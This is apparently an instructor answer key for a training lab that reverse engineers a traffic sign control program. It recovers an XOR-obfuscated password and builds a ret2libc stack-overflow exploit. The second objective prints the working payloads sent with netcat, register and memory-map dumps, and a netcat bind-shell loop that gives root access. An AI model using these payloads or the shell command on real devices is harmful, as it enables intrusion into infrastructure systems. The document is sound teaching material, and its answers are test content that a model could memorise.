

Author: Troy Shurtleff
Copyright 2019 BAE Systems
SPDX-License-Identifier: Apache-2.0

---
[TOC]

---
Approved for public release; unlimited distribution
Not export controlled per ES-FL-091619-0203

---

<div style="page-break-after: always;"></div>
# Reverse Engineering the Variable Message Sign

## Objective #1 (Recover the Default Password)

**_Exercise: Provide a screenshot showing the entry point of the 'check_password' function in the Listing view._**

The entry point of the `check_password` function is at offset `0x00010764`.


**_Exercise: Provide a screenshot showing the original decompilation of the 'check_password' function performed by Ghidra._**



**_Exercise: Do you observe any global variable names in the 'check_password' function?  If so, what are they called?  What data do you think might be stored in these global variables (In other words, what are they used for)?_**

In the `check_password` function there is a global variable named `ciphertext_password`.  This global variable stores the ciphertext password.

**_Exercise: Analyze the Ghidra's decompilation of the 'check_password' function and rename some of the local variables so the names reflect more accurately how they are used.  Provide a screenshot of your updated function._**

One solution is shown below.  Names chosen by students will vary.  Key takeaways are that there is a local variable that holds the input buffer (i.e. the password entered by the client) and a local variable that contains the correct plaintext password.


***Exercise: Describe the algorithm used to decrypt the correct password for the `signApp`.***

The `check_password` function decrypts the ciphertext password (stored in a global variable) and stores the result in a local variable.

In the original source code, each character of the ciphertext password is XORed with a single byte key (`0xAA`) and the result is the plaintext password.  The original decryption code is shown below (with defined macro values substituted).

```c
    // Decrypt the correct password
    for (unsigned int i = 0; i < 10; i++) {
        plaintext_password[i] = ciphertext_password[i] ^ 0xAA;
    }
```

Ghidra's decompilation is not quite as straightforward.  Ghidra shows each ciphertext character being XORed with the one's complement of the original key then the one's complement of that result is taken to yield the associated plaintext character.  The outcome of this operation is equivalent to the original.  The decompilation Ghidra generates is equivalent to the code below (the code below is slightly rewritten so it is comparable to the original source code).

```c
    // Decrypt the correct password
    for (unsigned int i = 0; i < 10; i++) {
        plaintext_password[i] = ~(ciphertext_password[i] ^ 0x55);
    }
```

Student descriptions of the algorithm may vary, but if they are able to determine the key and plaintext password they have correctly reverse engineered the algorithm.

***Exercise: What are the byte values, in hexadecimal, for each character in the ciphertext password?***

The byte values are: `0xC3`, `0xC4`, `0xC9`, `0xC5`, `0xD8`, `0xD8`, `0xCF`, `0xC9`, `0xDE`, `0xAA`

***Exercise: What is the key used for decrypting the ciphertext password?***

Depending on how students express the decryption algorithm they should indicate either `0xAA` or `0x55`.  Note that `0x55` is the binary ones complement of `0xAA`.

***Exercise: What is the ASCII character representation of the plaintext password?***

The plaintext password is `incorrect`.

When you enter an incorrect password the VMS Administrative Interface says "Your password is incorrect." ...get it?  Even if they make a lucky guess they are still asked for the ciphertext password and the key, which they can only obtain by reverse engineering the software.

## Objective #2 (Identify and Report a Security Vulnerability)

**_Exercise: Identify all the registers we control._**

The full output from the `info registers` command is shown below.

```
(gdb) info registers
r0             0x41414141	1094795585
r1             0xb6f52e99	3069521561
r2             0x41	65
r3             0x41414141	1094795585
r4             0x0	0
r5             0xb6f534d0	3069523152
r6             0xb6fd22ac	3070042796
r7             0x152	338
r8             0xb6fc03ec	3069969388
r9             0xb6f53040	3069521984
r10            0x200000	2097152
r11            0x41414141	1094795585
r12            0xb6f88ff0	3069743088
sp             0xb6f52eb8	0xb6f52eb8
lr             0x108d0	67792
pc             0x41414140	0x41414140
cpsr           0xa0000030	2684354608
(gdb) 
```

The registers we control are `r0`, `r2`, `r3`, `r11`, and `pc`.  

An alias for `r11` is `fp` (frame pointer).  If students answer `fp` instead of `r11` that is correct.

The `r2` register may be difficult to identify because we only control one byte (the remaining bytes are NULL).

***Exercise: For all of the registers we control, identify (1) the register identifier (e.g. `r0`, `pc`), (2) the sequence of bytes in that register, and (3) the offset into the input buffer where the value starts.  Count the offsets using a 1-based index (e.g. in the following buffer the sequence of four 'B' characters starts at index 5: AAAABBBBCCCC).*******

The full output from the `info registers` command is shown below.

```
(gdb) info registers
r0             0x41386341	1094214465
r1             0xb6f52e99	3069521561
r2             0x41	65
r3             0x41386341	1094214465
r4             0x0	0
r5             0xb6f534d0	3069523152
r6             0xb6fd22ac	3070042796
r7             0x152	338
r8             0xb6fc03ec	3069969388
r9             0xb6f53040	3069521984
r10            0x200000	2097152
r11            0x64413963	1681996131
r12            0xb6f88ff0	3069743088
sp             0xb6f52eb8	0xb6f52eb8
lr             0x108d0	67792
pc             0x31644130	0x31644130
cpsr           0xa0000010	2684354576
(gdb) 
```

The answers are in the table below.

| (1) Register Identifier | (2) Sequence of Bytes in Register | (3) Offset                                      |
| ----------------------- | --------------------------------- | ----------------------------------------------- |
| `r0`                    | `0x41386341` (ASCII `A8cA`)       | 85                                              |
| `r2`                    | `0x41` (ASCII `A`)                | Difficult to determine using only this approach |
| `r3`                    | `0x41386341` (ASCII `A8cA`)       | 85                                              |
| `r11`                   | `0x64413963` (ASCII `dA9c`)       | 89                                              |
| `pc`                    | `0x31644130` (ASCII `1dA0`)       | 93                                              |

The following text representation may help counting the offsets and determine how close students are if they are not exactly correct.  To count properly, make sure the text below is not wrapping (maybe paste it into a text editor from a Markdown or HTML version of this document.

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
                                                                                    Ac8Ac9Ad0Ad1
1234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890
         1         2         3         4         5         6         7         8         9         0         1         2         3
                                                                                                   1         1         1         1
```

***Exercise: Construct a buffer that populates a four-byte sequence of ASCII 'B' characters (0x42) in the `pc` register and a four-byte sequence of ASCII 'C' characters in the `r0` register.  Your buffer will cause the `signApp` process to crash and the register state will be captured in the resulting core file.  Your buffer should contain only four ASCII 'B' characters and only four ASCII 'C' characters.  All other characters in your sequence should be ASCII 'A' characters.  Your buffer should end with the sequence of four ASCII 'B' characters.  Provide the following three items as your response to this exercise:***

1. ***The text of the command you ran to send your buffer to the VMS Administrative Interface.***
2. ***A screenshot showing the full output you see in the terminal after running the command.***
3. ***A screenshot showing the state of the registers, as captured in the core file from the `signApp` crash, in GDB.***


1. The text of the command is shown below.

   ```
   python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCCAAAABBBB"' | nc 127.0.0.1 5555
   ```

2. The screenshot will show the following output.

   ```
   student@revm:~$ python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCCAAAABBBB"' | nc 127.0.0.1 5555
   The message of the day is: Changing lanes? Use yah blinkah.
   
   If you enter the correct password you can change the message of the day.
   
   password: student@revm:~$
   ```

3. The screenshot of the register state will show the following output.

   ```
   (gdb) info registers
   r0             0x43434343	1128481603
   r1             0xb6f52e99	3069521561
   r2             0x41	65
   r3             0x43434343	1128481603
   r4             0x0	0
   r5             0xb6f534d0	3069523152
   r6             0xb6fd22ac	3070042796
   r7             0x152	338
   r8             0xb6fc03ec	3069969388
   r9             0xb6f53040	3069521984
   r10            0x200000	2097152
   r11            0x41414141	1094795585
   r12            0xb6f88ff0	3069743088
   sp             0xb6f52eb8	0xb6f52eb8
   lr             0x108d0	67792
   pc             0x42424242	0x42424242
   cpsr           0xa0000010	2684354576
   (gdb) 
   ```

***Exercise: Provide a screenshot of the VMS process listing in your environment.***

The screenshot will contain information that resembles the following.  It is possible some of the PIDs, including the PID of the `signApp`, will be different.  This is fine.  The screenshot is primarily requested to make sure the students performed this check.

```
# ps
PID   USER     COMMAND
    1 root     init
    2 root     [kthreadd]
    3 root     [kworker/0:0-eve]
    4 root     [kworker/0:0H-kb]
    5 root     [kworker/u2:0-ev]
    6 root     [mm_percpu_wq]
    7 root     [ksoftirqd/0]
    8 root     [kdevtmpfs]
    9 root     [netns]
   10 root     [oom_reaper]
   11 root     [writeback]
   12 root     [kcompactd0]
   13 root     [crypto]
   14 root     [kblockd]
   15 root     [kswapd0]
   16 root     [kworker/0:1-eve]
   23 root     [scsi_eh_0]
   24 root     [scsi_tmf_0]
   25 root     [kworker/0:1H-kb]
   26 root     [ipv6_addrconf]
   27 root     [kworker/u2:1]
   28 root     [kworker/0:2-eve]
   29 root     [ext4-rsv-conver]
   45 root     /sbin/syslogd -n
   49 root     /sbin/klogd -n
   82 root     udhcpc -R -n -p /var/run/udhcpc.eth0.pid -i eth0
   87 root     /usr/sbin/dropbear -R
   89 root     /usr/sbin/signApp
   90 root     -sh
   92 root     ps
#
```

***Exercise: Provide a screenshot of the memory map for the `signApp` process in your environment (i.e. the contents of the `/proc/[pid]/maps` pseudo-file).***

The screenshot will contain the following information.

```
# cat /proc/89/maps
00010000-00011000 r-xp 00000000 08:00 335        /usr/sbin/signApp
00021000-00022000 r-xp 00001000 08:00 335        /usr/sbin/signApp
00022000-00023000 rwxp 00002000 08:00 335        /usr/sbin/signApp
b6f54000-b6fc1000 r-xp 00000000 08:00 415        /lib/libuClibc-1.0.31.so
b6fc1000-b6fd1000 ---p 00000000 00:00 0 
b6fd1000-b6fd2000 r-xp 0006d000 08:00 415        /lib/libuClibc-1.0.31.so
b6fd2000-b6fd3000 rwxp 0006e000 08:00 415        /lib/libuClibc-1.0.31.so
b6fd3000-b6fe9000 rwxp 00000000 00:00 0 
b6fe9000-b6fef000 r-xp 00000000 08:00 414        /lib/ld-uClibc-1.0.31.so
b6ffb000-b6ffd000 rwxp 00000000 00:00 0 
b6ffd000-b6ffe000 r-xp 00000000 00:00 0          [sigpage]
b6ffe000-b6fff000 r-xp 00005000 08:00 414        /lib/ld-uClibc-1.0.31.so
b6fff000-b7000000 rwxp 00006000 08:00 414        /lib/ld-uClibc-1.0.31.so
befdf000-bf000000 rw-p 00000000 00:00 0          [stack]
ffff0000-ffff1000 r-xp 00000000 00:00 0          [vectors]
# 
```

Note that the column to the left of the path represents the inode number, which may vary.  The most important information here is the addresses in the far left column.

***Exercise: What is the virtual memory address of where we can find the data stored in the `message_of_the_day` variable?***

The virtual memory address of the `message_of_the_day` variable is `0x00022070`.

***Exercise: What is the base address for the `libc.so.0` library in the context of the virtual memory address space for the `signApp` process?***

The base address of the `libc.so.0` library is `0xb6f54000`.

***Exercise: What is the virtual memory address of where we can find the `system` function in the `signApp` process?***

The virtual memory address of the `system` function in the `signApp` process is `0xb6f9c074`.

***Exercise: Provide the following items to demonstrate you were able to complete a working proof-of-concept exploit.***

1. ***The text of the command you ran to send your final proof-of-concept attack buffer to the VMS Administrative Interface.***

   ```
   student@revm:~$ python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x70\x20\x02\x00AAAA\x74\xc0\xf9\xb6"' | nc 127.0.0.1 5555
   ```

2. ***A screenshot showing the full output you see in the terminal after running the command.***

   The screenshot will show the following output.  Note that the connection is not terminated because the while loop is running (i.e. the call to the `system` function has not returned).

   ```
   student@revm:~$ python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x70\x20\x02\x00AAAA\x74\xc0\xf9\xb6"' | nc 127.0.0.1 5555
   The message of the day is: while true; do nc -lnv -p 1337 -e /bin/sh; sleep 1; done
   
   If you enter the correct password you can change the message of the day.
   
   password: 
   ```

3. ***A screenshot showing the results of running the `id` and `uname -a` commands in your `netcat` shell connection to the VMS.***

   The screenshot will contain the following text for the `id` and `uname -a` commands.  Make sure the output from `uname -a` contains `armv5tejl`.  If it does not the command was run on the Reverse Engineering VM and not the target VMS system.

   ```
   student@revm:~$ nc 127.0.0.1 1337
   id 
   uid=0(root) gid=0(root)
   uname -a
   Linux vms 4.19.16 #1 Sat Aug 17 17:56:07 EDT 2019 armv5tejl GNU/Linux
   ```

   Note that we gave the students this expected output in the exercise document.  The screenshot shows they successfully performed the exploit

---
Author: Troy Shurtleff
Copyright 2019 BAE Systems
SPDX-License-Identifier: Apache-2.0

Approved for public release; unlimited distribution
Not export controlled per ES-FL-091619-0203